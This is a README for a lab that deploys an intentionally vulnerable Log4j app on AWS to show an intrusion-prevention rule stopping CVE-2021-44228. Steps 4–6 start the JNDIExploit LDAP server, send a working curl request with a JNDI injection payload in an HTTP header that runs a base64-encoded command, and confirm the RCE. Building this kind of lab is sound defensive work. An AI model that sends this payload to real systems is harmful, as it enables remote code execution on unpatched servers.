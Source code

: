 # Cloud One - Workload Security Log4Shell
This repo contains a quick deployment template to showcase CVE-2021-44228 LOG4SHELL exploit and Workload Security Intrusion Prevention

## Deploy CloudFormation Template

Parameters to Define:
- **KeyPair**: Name of a current Key Pair
- **IPforSSH**: restrict SSH access to your IP. Default is 0.0.0.0/0

[![Launch Stack](https://cdn.rawgit.com/buildkite/cloudformation-launch-stack-button-svg/master/launch-stack.svg)](https://console.aws.amazon.com/cloudformation/home#/stacks/new?stackName=c1-ws-log4shell&templateURL=https://aws-workshop-c1as-cft-templates.s3.amazonaws.com/c1-ws-log4shell.yaml)

![architecture](images/architecture.png)

---

## After CloudFormation Template Deployment

## 1. SSH into EC2 instance(Shell A)
    ```bash
    sudo su
    <Deploy Workload Security Agent deployment script with Linux Policy attached.>
    ```
    ![deployment_script](images/deploymentscript.png)

## 2. In Cloud One-WS: Assign IPS rule for CVE-2021-44228 to linux machine
    - IPS rule number: **1011242**
    - Assign rule and change to **Detect Only** for now.
    - Accept all rule dependencies.
    
    ![ips_rule](images/ipsrule.png)
    
    ![detect_only](images/detectonly.png)

---

## 3. Start docker app(Shell A)

```bash
cd log4shell-vulnerable-app
docker run -p 8080:8080 --name vulnerable-app vulnerable-app
```
![docker_run](images/dockerstart.png)

---

## 4. Open Second SSH session(Shell B) and run command to create LDAP server
* [JNDIExploit](https://github.com/feihong-cs/JNDIExploit/releases/tag/v1.2) provided by feihong-cs before it was removed from GitHub.
```bash
unzip JNDIExploit.v1.2.zip
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i your-private-ip -p 8888
```

## 5. Run Exploit
- Open new SSH session(Shell C)

```bash
# will execute 'touch /tmp/pwned'
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://your-private-ip:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=}'
```
Notice the output(Shell B) of JNDIExploit, showing it has sent the malicious LDAP response and served the second-stage payload:

![shell-b](images/shell-b.png)

---

## 6. Confirm RCE was successful with the creation of pwned.txt file inside the running container's /tmp directory. 
- Using Shell C

```bash
docker exec vulnerable-app ls /tmp
```
![shell-c](images/shell-c.png)

---

## Repeat attack this time with IPS rule set to **Prevent**


<hr>

## Reference
Thank you [christophetd](https://github.com/christophetd/log4shell-vulnerable-app) for providing the vulnerable Spring Boot web application.
